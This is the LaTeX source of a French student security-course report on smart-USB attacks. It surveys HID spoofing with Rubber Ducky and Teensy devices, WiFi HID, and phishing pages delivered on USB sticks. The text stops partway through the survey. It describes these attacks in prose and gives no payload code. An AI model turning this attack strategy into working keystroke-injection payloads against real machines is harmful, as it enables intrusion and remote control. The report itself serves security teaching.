%%
% Copyright (c) 2017 - 2021, Pascal Wagler;
% Copyright (c) 2014 - 2021, John MacFarlane
%
% All rights reserved.
%
% Redistribution and use in source and binary forms, with or without
% modification, are permitted provided that the following conditions
% are met:
%
% - Redistributions of source code must retain the above copyright
% notice, this list of conditions and the following disclaimer.
%
% - Redistributions in binary form must reproduce the above copyright
% notice, this list of conditions and the following disclaimer in the
% documentation and/or other materials provided with the distribution.
%
% - Neither the name of John MacFarlane nor the names of other
% contributors may be used to endorse or promote products derived
% from this software without specific prior written permission.
%
% THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS
% "AS IS" AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT
% LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS
% FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE
% COPYRIGHT OWNER OR CONTRIBUTORS BE LIABLE FOR ANY DIRECT, INDIRECT,
% INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING,
% BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES;
% LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER
% CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT
% LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN
% ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE
% POSSIBILITY OF SUCH DAMAGE.
%%

%%
% This is the Eisvogel pandoc LaTeX template.
%
% For usage information and examples visit the official GitHub page:
% https://github.com/Wandmalfarbe/pandoc-latex-template
%%

% Options for packages loaded elsewhere
\PassOptionsToPackage{unicode}{hyperref}
\PassOptionsToPackage{hyphens}{url}
\PassOptionsToPackage{dvipsnames,svgnames*,x11names*,table}{xcolor}
%
\documentclass[
  french,
  paper=a4,
  ,captions=tableheading
]{scrartcl}
\usepackage{amsmath,amssymb}
\usepackage{lmodern}
\usepackage{setspace}
\setstretch{1.2}
\usepackage{ifxetex,ifluatex}
\ifnum 0\ifxetex 1\fi\ifluatex 1\fi=0 % if pdftex
  \usepackage[T1]{fontenc}
  \usepackage[utf8]{inputenc}
  \usepackage{textcomp} % provide euro and other symbols
\else % if luatex or xetex
  \usepackage{unicode-math}
  \defaultfontfeatures{Scale=MatchLowercase}
  \defaultfontfeatures[\rmfamily]{Ligatures=TeX,Scale=1}
\fi
% Use upquote if available, for straight quotes in verbatim environments
\IfFileExists{upquote.sty}{\usepackage{upquote}}{}
\IfFileExists{microtype.sty}{% use microtype if available
  \usepackage[]{microtype}
  \UseMicrotypeSet[protrusion]{basicmath} % disable protrusion for tt fonts
}{}
\makeatletter
\@ifundefined{KOMAClassName}{% if non-KOMA class
  \IfFileExists{parskip.sty}{%
    \usepackage{parskip}
  }{% else
    \setlength{\parindent}{0pt}
    \setlength{\parskip}{6pt plus 2pt minus 1pt}}
}{% if KOMA class
  \KOMAoptions{parskip=half}}
\makeatother
\usepackage{xcolor}
\definecolor{default-linkcolor}{HTML}{A50000}
\definecolor{default-filecolor}{HTML}{A50000}
\definecolor{default-citecolor}{HTML}{4077C0}
\definecolor{default-urlcolor}{HTML}{4077C0}
\IfFileExists{xurl.sty}{\usepackage{xurl}}{} % add URL line breaks if available
\IfFileExists{bookmark.sty}{\usepackage{bookmark}}{\usepackage{hyperref}}
\hypersetup{
  pdftitle={Stratégie et démonstration d'attaque par clé USB intelligente},
  pdfauthor={Simon Meier},
  pdflang={fr},
  pdfsubject={Sécurité},
  pdfkeywords={Security},
  hidelinks,
  breaklinks=true,
  pdfcreator={LaTeX via pandoc with the Eisvogel template}}
\urlstyle{same} % disable monospaced font for URLs
\usepackage[bmargin=2.5cm, tmargin=2.5cm, lmargin=3.75cm, rmargin=2.25cm,includehead=true,includefoot=true,centering]{geometry}

\usepackage[export]{adjustbox}
\usepackage{graphicx}
\usepackage{color}
\usepackage{fancyvrb}
\newcommand{\VerbBar}{|}
\newcommand{\VERB}{\Verb[commandchars=\\\{\}]}
\DefineVerbatimEnvironment{Highlighting}{Verbatim}{commandchars=\\\{\}}
% Add ',fontsize=\small' for more characters per line
\usepackage{framed}
\definecolor{shadecolor}{RGB}{248,248,248}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\AlertTok}[1]{\textcolor[rgb]{0.94,0.16,0.16}{#1}}
\newcommand{\AnnotationTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textbf{\textit{#1}}}}
\newcommand{\AttributeTok}[1]{\textcolor[rgb]{0.77,0.63,0.00}{#1}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CharTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\CommentVarTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textbf{\textit{#1}}}}
\newcommand{\ConstantTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\DataTypeTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{#1}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\DocumentationTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textbf{\textit{#1}}}}
\newcommand{\ErrorTok}[1]{\textcolor[rgb]{0.64,0.00,0.00}{\textbf{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FloatTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\ImportTok}[1]{#1}
\newcommand{\InformationTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textbf{\textit{#1}}}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\OtherTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{#1}}
\newcommand{\PreprocessorTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\RegionMarkerTok}[1]{#1}
\newcommand{\SpecialCharTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\SpecialStringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\VerbatimStringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\WarningTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textbf{\textit{#1}}}}

% Workaround/bugfix from jannick0.
% See https://github.com/jgm/pandoc/issues/4302#issuecomment-360669013)
% or https://github.com/Wandmalfarbe/pandoc-latex-template/issues/2
%
% Redefine the verbatim environment 'Highlighting' to break long lines (with
% the help of fvextra). Redefinition is necessary because it is unlikely that
% pandoc includes fvextra in the default template.
\usepackage{fvextra}
\DefineVerbatimEnvironment{Highlighting}{Verbatim}{breaklines,fontsize=\small,commandchars=\\\{\}}

\usepackage{longtable,booktabs,array}
\usepackage{calc} % for calculating minipage widths
% Correct order of tables after \paragraph or \subparagraph
\usepackage{etoolbox}
\makeatletter
\patchcmd\longtable{\par}{\if@noskipsec\mbox{}\fi\par}{}{}
\makeatother
% Allow footnotes in longtable head/foot
\IfFileExists{footnotehyper.sty}{\usepackage{footnotehyper}}{\usepackage{footnote}}
\makesavenoteenv{longtable}
% add backlinks to footnote references, cf. https://tex.stackexchange.com/questions/302266/make-footnote-clickable-both-ways
\usepackage{footnotebackref}
\usepackage{graphicx}
\makeatletter
\def\maxwidth{\ifdim\Gin@nat@width>\linewidth\linewidth\else\Gin@nat@width\fi}
\def\maxheight{\ifdim\Gin@nat@height>\textheight\textheight\else\Gin@nat@height\fi}
\makeatother
% Scale images if necessary, so that they will not overflow the page
% margins by default, and it is still possible to overwrite the defaults
% using explicit options in \includegraphics[width, height, ...]{}
\setkeys{Gin}{width=\maxwidth,height=\maxheight,keepaspectratio}
% Set default figure placement to htbp
\makeatletter
\def\fps@figure{htbp}
\makeatother
\setlength{\emergencystretch}{3em} % prevent overfull lines
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\setcounter{secnumdepth}{5}

% Make use of float-package and set default placement for figures to H.
% The option H means 'PUT IT HERE' (as  opposed to the standard h option which means 'You may put it here if you like').
\usepackage{float}
\floatplacement{figure}{H}

\ifxetex
    % See issue https://github.com/reutenauer/polyglossia/issues/127
  \renewcommand*\familydefault{\sfdefault}
    % Load polyglossia as late as possible: uses bidi with RTL langages (e.g. Hebrew, Arabic)
  \usepackage{polyglossia}
  \setmainlanguage[]{french}
\else
  \usepackage[main=french]{babel}
% get rid of language-specific shorthands (see #6817):
\let\LanguageShortHands\languageshorthands
\def\languageshorthands#1{}
\fi
\ifluatex
  \usepackage{selnolig}  % disable illegal ligatures
\fi

\title{Stratégie et démonstration d'attaque par clé USB intelligente}
\usepackage{etoolbox}
\makeatletter
\providecommand{\subtitle}[1]{% add subtitle to \maketitle
  \apptocmd{\@title}{\par {\large #1 \par}}{}{}
}
\makeatother
\subtitle{Sécurité}
\author{Simon Meier}
\date{\today}



%%
%% added
%%

%
% language specification
%
% If no language is specified, use English as the default main document language.
%


\usepackage[pages=all]{background}

%
% for the background color of the title page
%
\usepackage{pagecolor}
\usepackage{afterpage}
\usepackage{tikz}
\usepackage[bmargin=2.5cm, tmargin=2.5cm, lmargin=3.75cm, rmargin=2.25cm,includehead=true,includefoot=true,centering]{geometry}


%
% break urls
%
\PassOptionsToPackage{hyphens}{url}

%
% When using babel or polyglossia with biblatex, loading csquotes is recommended
% to ensure that quoted texts are typeset according to the rules of your main language.
%
\usepackage{csquotes}

%
% captions
%
\definecolor{caption-color}{HTML}{777777}
\usepackage[font={stretch=1.2}, textfont={color=caption-color}, position=top, skip=4mm, labelfont=bf, singlelinecheck=false, justification=raggedright]{caption}
\setcapindent{0em}

%
% blockquote
%
\definecolor{blockquote-border}{RGB}{221,221,221}
\definecolor{blockquote-text}{RGB}{119,119,119}
\usepackage{mdframed}
\newmdenv[rightline=false,bottomline=false,topline=false,linewidth=3pt,linecolor=blockquote-border,skipabove=\parskip]{customblockquote}
\renewenvironment{quote}{\begin{customblockquote}\list{}{\rightmargin=0em\leftmargin=0em}%
\item\relax\color{blockquote-text}\ignorespaces}{\unskip\unskip\endlist\end{customblockquote}}

%
% Source Sans Pro as the de­fault font fam­ily
% Source Code Pro for monospace text
%
% 'default' option sets the default
% font family to Source Sans Pro, not \sfdefault.
%
\ifnum 0\ifxetex 1\fi\ifluatex 1\fi=0 % if pdftex
    \usepackage[default]{sourcesanspro}
  \usepackage{sourcecodepro}
  \else % if not pdftex
    \usepackage[default]{sourcesanspro}
  \usepackage{sourcecodepro}

  % XeLaTeX specific adjustments for straight quotes: https://tex.stackexchange.com/a/354887
  % This issue is already fixed (see https://github.com/silkeh/latex-sourcecodepro/pull/5) but the
  % fix is still unreleased.
  % TODO: Remove this workaround when the new version of sourcecodepro is released on CTAN.
  \ifxetex
    \makeatletter
    \defaultfontfeatures[\ttfamily]
      { Numbers   = \sourcecodepro@figurestyle,
        Scale     = \SourceCodePro@scale,
        Extension = .otf }
    \setmonofont
      [ UprightFont    = *-\sourcecodepro@regstyle,
        ItalicFont     = *-\sourcecodepro@regstyle It,
        BoldFont       = *-\sourcecodepro@boldstyle,
        BoldItalicFont = *-\sourcecodepro@boldstyle It ]
      {SourceCodePro}
    \makeatother
  \fi
  \fi

%
% heading color
%
\definecolor{heading-color}{RGB}{40,40,40}
\addtokomafont{section}{\color{heading-color}}
% When using the classes report, scrreprt, book,
% scrbook or memoir, uncomment the following line.
%\addtokomafont{chapter}{\color{heading-color}}

%
% variables for title, author and date
%
\usepackage{titling}
\title{Stratégie et démonstration d'attaque par clé USB intelligente}
\author{Simon Meier}
\date{\today}

%
% tables
%

\definecolor{table-row-color}{HTML}{F5F5F5}
\definecolor{table-rule-color}{HTML}{999999}

%\arrayrulecolor{black!40}
\arrayrulecolor{table-rule-color}     % color of \toprule, \midrule, \bottomrule
\setlength\heavyrulewidth{0.3ex}      % thickness of \toprule, \bottomrule
\renewcommand{\arraystretch}{1.3}     % spacing (padding)


%
% remove paragraph indention
%
\setlength{\parindent}{0pt}
\setlength{\parskip}{6pt plus 2pt minus 1pt}
\setlength{\emergencystretch}{3em}  % prevent overfull lines

%
%
% Listings
%
%
\usepackage{listings}

%
% general listing colors
%
\definecolor{listing-background}{HTML}{F7F7F7}
\definecolor{listing-rule}{HTML}{B3B2B3}
\definecolor{listing-numbers}{HTML}{B3B2B3}
\definecolor{listing-text-color}{HTML}{000000}
\definecolor{listing-keyword}{HTML}{435489}
\definecolor{listing-keyword-2}{HTML}{1284CA} % additional keywords
\definecolor{listing-keyword-3}{HTML}{9137CB} % additional keywords
\definecolor{listing-identifier}{HTML}{435489}
\definecolor{listing-string}{HTML}{00999A}
\definecolor{listing-comment}{HTML}{8E8E8E}

\lstdefinestyle{eisvogel_listing_style}{
  language         = java,
  numbers          = left,
  xleftmargin      = 2.7em,
  framexleftmargin = 2.5em,
  backgroundcolor  = \color{listing-background},
  basicstyle       = \color{listing-text-color}\linespread{1.25}\small\ttfamily{},
  breaklines       = true,
  frame            = single,
  framesep         = 0.33em,
  rulecolor        = \color{listing-rule},
  frameround       = ffff,
  tabsize          = 8,
  numberstyle      = \color{listing-numbers},
  aboveskip        = 1.0em,
  belowskip        = 0.2em,
  abovecaptionskip = 0em,
  belowcaptionskip = 1.5em,
  keywordstyle     = {\color{listing-keyword}\bfseries},
  keywordstyle     = {[2]\color{listing-keyword-2}\bfseries},
  keywordstyle     = {[3]\color{listing-keyword-3}\bfseries\itshape},
  sensitive        = true,
  identifierstyle  = \color{listing-identifier},
  commentstyle     = \color{listing-comment},
  stringstyle      = \color{listing-string},
  showstringspaces = false,
  escapeinside     = {/*@}{@*/}, % Allow LaTeX inside these special comments
  literate         =
  {á}{{\'a}}1 {é}{{\'e}}1 {í}{{\'i}}1 {ó}{{\'o}}1 {ú}{{\'u}}1
  {Á}{{\'A}}1 {É}{{\'E}}1 {Í}{{\'I}}1 {Ó}{{\'O}}1 {Ú}{{\'U}}1
  {à}{{\`a}}1 {è}{{\'e}}1 {ì}{{\`i}}1 {ò}{{\`o}}1 {ù}{{\`u}}1
  {À}{{\`A}}1 {È}{{\'E}}1 {Ì}{{\`I}}1 {Ò}{{\`O}}1 {Ù}{{\`U}}1
  {ä}{{\"a}}1 {ë}{{\"e}}1 {ï}{{\"i}}1 {ö}{{\"o}}1 {ü}{{\"u}}1
  {Ä}{{\"A}}1 {Ë}{{\"E}}1 {Ï}{{\"I}}1 {Ö}{{\"O}}1 {Ü}{{\"U}}1
  {â}{{\^a}}1 {ê}{{\^e}}1 {î}{{\^i}}1 {ô}{{\^o}}1 {û}{{\^u}}1
  {Â}{{\^A}}1 {Ê}{{\^E}}1 {Î}{{\^I}}1 {Ô}{{\^O}}1 {Û}{{\^U}}1
  {œ}{{\oe}}1 {Œ}{{\OE}}1 {æ}{{\ae}}1 {Æ}{{\AE}}1 {ß}{{\ss}}1
  {ç}{{\c c}}1 {Ç}{{\c C}}1 {ø}{{\o}}1 {å}{{\r a}}1 {Å}{{\r A}}1
  {€}{{\EUR}}1 {£}{{\pounds}}1 {«}{{\guillemotleft}}1
  {»}{{\guillemotright}}1 {ñ}{{\~n}}1 {Ñ}{{\~N}}1 {¿}{{?`}}1
  {…}{{\ldots}}1 {≥}{{>=}}1 {≤}{{<=}}1 {„}{{\glqq}}1 {“}{{\grqq}}1
  {”}{{''}}1
}
\lstset{style=eisvogel_listing_style}

%
% Java (Java SE 12, 2019-06-22)
%
\lstdefinelanguage{Java}{
  morekeywords={
    % normal keywords (without data types)
    abstract,assert,break,case,catch,class,continue,default,
    do,else,enum,exports,extends,final,finally,for,if,implements,
    import,instanceof,interface,module,native,new,package,private,
    protected,public,requires,return,static,strictfp,super,switch,
    synchronized,this,throw,throws,transient,try,volatile,while,
    % var is an identifier
    var
  },
  morekeywords={[2] % data types
    % primitive data types
    boolean,byte,char,double,float,int,long,short,
    % String
    String,
    % primitive wrapper types
    Boolean,Byte,Character,Double,Float,Integer,Long,Short
    % number types
    Number,AtomicInteger,AtomicLong,BigDecimal,BigInteger,DoubleAccumulator,DoubleAdder,LongAccumulator,LongAdder,Short,
    % other
    Object,Void,void
  },
  morekeywords={[3] % literals
    % reserved words for literal values
    null,true,false,
  },
  sensitive,
  morecomment  = [l]//,
  morecomment  = [s]{/*}{*/},
  morecomment  = [s]{/**}{*/},
  morestring   = [b]",
  morestring   = [b]',
}

\lstdefinelanguage{XML}{
  morestring      = [b]",
  moredelim       = [s][\bfseries\color{listing-keyword}]{<}{\ },
  moredelim       = [s][\bfseries\color{listing-keyword}]{</}{>},
  moredelim       = [l][\bfseries\color{listing-keyword}]{/>},
  moredelim       = [l][\bfseries\color{listing-keyword}]{>},
  morecomment     = [s]{<?}{?>},
  morecomment     = [s]{<!--}{-->},
  commentstyle    = \color{listing-comment},
  stringstyle     = \color{listing-string},
  identifierstyle = \color{listing-identifier}
}

%
% Source Sans Pro as the de­fault font fam­ily
% Source Code Pro for monospace text
%
% 'default' option sets the default
% font family to Source Sans Pro, not \sfdefault.
%
\ifnum 0\ifxetex 1\fi\ifluatex 1\fi=0 % if pdftex
    \usepackage[default]{sourcesanspro}
  \usepackage{sourcecodepro}
  \else % if not pdftex
    \usepackage[default]{sourcesanspro}
  \usepackage{sourcecodepro}

  % XeLaTeX specific adjustments for straight quotes: https://tex.stackexchange.com/a/354887
  % This issue is already fixed (see https://github.com/silkeh/latex-sourcecodepro/pull/5) but the
  % fix is still unreleased.
  % TODO: Remove this workaround when the new version of sourcecodepro is released on CTAN.
  \ifxetex
    \makeatletter
    \defaultfontfeatures[\ttfamily]
      { Numbers   = \sourcecodepro@figurestyle,
        Scale     = \SourceCodePro@scale,
        Extension = .otf }
    \setmonofont
      [ UprightFont    = *-\sourcecodepro@regstyle,
        ItalicFont     = *-\sourcecodepro@regstyle It,
        BoldFont       = *-\sourcecodepro@boldstyle,
        BoldItalicFont = *-\sourcecodepro@boldstyle It ]
      {SourceCodePro}
    \makeatother
  \fi
  \fi

%
% heading color
%
\definecolor{heading-color}{RGB}{40,40,40}
\addtokomafont{section}{\color{heading-color}}
% When using the classes report, scrreprt, book,
% scrbook or memoir, uncomment the following line.
%\addtokomafont{chapter}{\color{heading-color}}
%
% tables
%

\definecolor{table-row-color}{HTML}{F5F5F5}
\definecolor{table-rule-color}{HTML}{999999}

%\arrayrulecolor{black!40}
\arrayrulecolor{table-rule-color}     % color of \toprule, \midrule, \bottomrule
\setlength\heavyrulewidth{0.3ex}      % thickness of \toprule, \bottomrule
\renewcommand{\arraystretch}{1.3}     % spacing (padding)


%
% remove paragraph indention
%
\setlength{\parindent}{0pt}
\setlength{\parskip}{6pt plus 2pt minus 1pt}
\setlength{\emergencystretch}{3em}  % prevent overfull lines

%
% header and footer
%
\usepackage{fancyhdr}

\fancypagestyle{eisvogel-header-footer}{
  \fancyhead{}
  \fancyfoot{}
  \lhead[\today]{Attaque par clé USB
intelligente}
  \chead[Cours - Sécurité]{Cours - Sécurité}
  \rhead[]{\today}
  \lfoot[\thepage]{Simon Meier}
  \cfoot[]{}
  \rfoot[Simon Meier]{\thepage}
  \renewcommand{\headrulewidth}{0.4pt}
  \renewcommand{\footrulewidth}{0.4pt}
}
\pagestyle{eisvogel-header-footer}
\backgroundsetup{
scale=1,
color=black,
opacity=0.2,
angle=0,
contents={%
  \includegraphics[width=\paperwidth,height=\paperheight]{backgrounds/background\_page.png}
  }%
}

%%
%% end added
%%

\begin{document}

%%
%% begin titlepage
%%
\begin{titlepage}
\newgeometry{top=2cm, right=4cm, bottom=3cm, left=4cm}
\definecolor{titlepage-color}{HTML}{ffd7d4}
\newpagecolor{titlepage-color}\afterpage{\restorepagecolor}
\tikz[remember picture,overlay] \node[inner sep=0pt] at (current page.center){\includegraphics[width=\paperwidth,height=\paperheight]{backgrounds/background\_frontpage.png}};
\newcommand{\colorRule}[3][black]{\textcolor[HTML]{#1}{\rule{#2}{#3}}}
\begin{flushleft}
\noindent
\\[-1em]
\color[HTML]{242424}

\par
\noindent
\noindent

\includegraphics[width=50mm, center]{arc-logo.png}
\vskip 2em

\includegraphics[width=100mm, center]{images/logo.png}
\vskip 2em
% The titlepage with a background image has other text spacing and text size
{
  \setstretch{2}
  \vfill
  \vskip -4em
  \noindent {\huge \textbf{\textsf{Stratégie et démonstration d'attaque
par clé USB intelligente}}}
    \vskip 1em
    \vskip 1em
  {\Large \textsf{Projet du cours Sécurité}}
    \vskip 2em
    \begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}
	
  \noindent \textbf{Étudiants:} {\textsf{Simon Meier} \vskip 0.6em \textsf{\today}}

  \textbf{Professeur:} Marc Schaefer
	
  \begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}
  \vfill
}
\end{flushleft}
\end{titlepage}
\restoregeometry

%%
%% end titlepage
%%

\tableofcontents

\newpage

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\textbf{Titre:} Stratégie et démonstration d'attaque par clé USB
intelligente

\textbf{Etudiant:} Simon Meier

\textbf{Professeur:} Marc Schaefer

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\hypertarget{ruxe9sumuxe9}{%
\section{Résumé}\label{ruxe9sumuxe9}}

Dans le cadre du cours ``Sécurité'', un projet doit être réalisé
sur un sujet choisi parmi une liste. Le sujet choisi ici est
\emph{Stratégie et démonstration d'attaque par clé USB intelligente}.

La stratégie d'attaque choisie est celle du HID (\emph{Human Interface
Device}) spoofing, soit déguiser en clé USB un matériel tout à fait
différent pour exécuter des instructions sur un terminal cible.

\hypertarget{contexte}{%
\section{Contexte}\label{contexte}}

Les clés USB font partie du quotidien, et sont encore utilisées par une
quantité non négligeable de personne. Ainsi tout le monde, petits et
grands, savent à quoi ressemble une clé USB malgré tout les modèles
différents disponibles sur le marché.

Même si la dangerosité de ces objets est connues depuis longtemps, la
plupart des personnes insert malgré tout une clé USB qu'ils ont trouvé
quelque part dans un port USB de leur ordinateur personnel comme le
démontre cette étude de 2016\footnote{elie.net, Elie Bursztein,
  \href{https://elie.net/blog/security/concerns-about-usb-security-are-real-48-percent-of-people-do-plug-in-usb-drives-found-in-parking-lots/}{Concerns
  about usb security are real}}.

Pire encore, peut-être, est le sentiment de protection que peut fournir
un antivirus. Pour une clé USB avec un virus où autre entité néfaste, il
est possible que l'antivirus fasse son travail.

Mais est-ce que quelque chose qui ressemble à une clé USB est vraiment
une clé USB? D'autres périphériques utilisent les ports USB pour se
connecter à un terminal, pas seulement les clés. Est-ce qu'à ce moment
là, l'antivirus détecte l'intrusion? Rien n'est moins sûr.

C'est sur cette disonnance que les \emph{USB Rubber Ducky}\footnote{hak5darren,
  github \href{https://github.com/hak5darren/USB-Rubber-Ducky}{USB
  Rubber Ducky}} appuie leur attaque. En apparence, une clé USB, en
réalité un clavier simulé envoyant des instructions à exécuter sur
l'ordinateur d'une victime.

C'est sur cette faille que le présent travail s'appuie, en utilisant une
de ces clés USB pour lancer une attaque sur un ordinateur ciblé.
L'attaque en question n'est pas dans un but destructeur, mais pour
observer ce qui est possible d'effectuer par cette brèche.

Un exemple simple et inoffensif, \texttt{nggyu.txt}, est implémenté et
fourni dans le workspace du projet.

\hypertarget{uxe9tat-de-lart}{%
\section{État de l'art}\label{uxe9tat-de-lart}}

Cette section introduit l'état de l'art des attaques par clés USB
intelligentes, et notamment les stratégies d'attaques:

\begin{itemize}
\tightlist
\item
  Attaque HID

  \begin{itemize}
  \tightlist
  \item
    HID spoofing
  \item
    WHID attack
  \end{itemize}
\item
  Social engineering
\item
  0-days
\end{itemize}

\hypertarget{attaque-hid}{%
\subsection{Attaque HID}\label{attaque-hid}}

L'attaque HID est un scénario dans lequel un attaquant prend une
plate-forme de développement intégrée programmable telle que Teensy
3.2\footnote{Teensy 3.2
  \href{https://www.pjrc.com/store/teensy32.html}{pjrc}} et un progiciel
associé tel que Peensy\footnote{Lucas Bongiorni, github,
  \href{https://github.com/LucaBongiorni/peensy}{Teensy Penetration
  Testing Payload}} et crée un périphérique USB.

Lorsque ce périphérique USB est branché dans un ordinateur il exécute un
ensemble préconfiguré de frappes pour déposer un \texttt{payload}
malveillant sur l'ordinateur cible.

Les \texttt{payload} réelles qui sont supprimées et exécutées sont
hautement configurables et cette approche fonctionne sous \emph{Linux},
\emph{Windows} et \emph{Mac OS X}.

\hypertarget{hid-spoofing}{%
\subsubsection{HID spoofing}\label{hid-spoofing}}

Les clés d'usurpation \textbf{\emph{HID (Human Interface Device)}}
utilisent un matériel spécialisé pour tromper un ordinateur en lui
faisant croire que la clé USB est un \textbf{clavier}.\footnote{elie.net,
  Elie Bursztein,
  \href{https://elie.net/blog/security/what-are-malicious-usb-keys-and-how-to-create-a-realistic-one/}{What
  are malicious usb keys and how to create a realistic one?}}

Ce faux clavier injecte des frappes dès que l'appareil est branché sur
l'ordinateur. Les frappes écrivent un ensemble de commandes qui
compromettent le terminal cible. Par exemple en générant un shell TCP
inversé qui donne un contrôle à distance complet sur l'ordinateur des
victimes.

\begin{longtable}[]{@{}c@{}}
\toprule
Schéma d'attaque\tabularnewline
\midrule
\endhead

\includegraphics{images/1.png}\tabularnewline
Source: elie.net
\href{https://elie.net/blog/security/what-are-malicious-usb-keys-and-how-to-create-a-realistic-one/}{image
source}\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{attaque-whid}{%
\subsubsection{Attaque WHID}\label{attaque-whid}}

WHID signifie \textbf{WiFi Human Interface Device}\footnote{WiFiDuck,
  github \href{https://github.com/SpacehuhnTech/WiFiDuck}{WiFiDuck}}. Le
matériel est à peu de chose près le même que celui utilisé pour les clés
\textbf{HID}, combiné à un module WiFi, comme par exemple
\emph{EPS-12s}\footnote{Waveshare, Ai-Thinker,
  \href{https://www.waveshare.com/esp-12s.htm}{ESP-12s Module WiFi}}.

\hypertarget{social-engineering}{%
\subsection{Social engineering}\label{social-engineering}}

Utilise une clé USB standard qui contient des fichiers \texttt{HTML}.
Généralement, il y a une tentative de persuasion sur l'utilisateur pour
qu'il transmette son identifiant et son mot de passe par l'intermédiaire
d'un formulaire ressemblant à une page connue, puis une récupération des
données une fois que l'utilisateur clique.

\begin{longtable}[]{@{}c@{}}
\toprule
Schéma d'attaque\tabularnewline
\midrule
\endhead
